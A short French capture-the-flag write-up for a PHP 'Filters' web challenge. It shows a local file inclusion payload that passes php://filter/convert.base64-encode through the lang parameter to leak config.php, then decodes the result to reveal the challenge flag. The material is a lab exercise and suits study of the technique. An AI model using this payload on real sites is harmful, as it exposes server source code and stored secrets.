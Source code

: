 ## Filters

Ce challenge concerne les filtres en php. Ces filtres permettent d'appliquer des conversions en base64 par exemple sur des ressources.

```URL
https://filters.secu-web.blackfoot.dev/index.php?lang=fr.php
```
Ici le paramètre lang va nous permettre d'injecter un filtre avec le fichier config.php qui est require d'après le code source

```PHP
require('config.php');
```

On va donc passer notre payloads directement dans l'url

```
https://filters.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config.php
```
```JS
decodedFlag = window.atob(unescape(encodeURIComponent("PD9waHAKICAvLyBDb25ncmF0eiAhIEZMQUcgSVMgQkZTe1VfaDR2M19VbjAhISF9Cj8+Cg==")))
```

```PHP
<?php
  // Congratz ! FLAG IS BFS{U_h4v3_Un0!!!}
?>
```

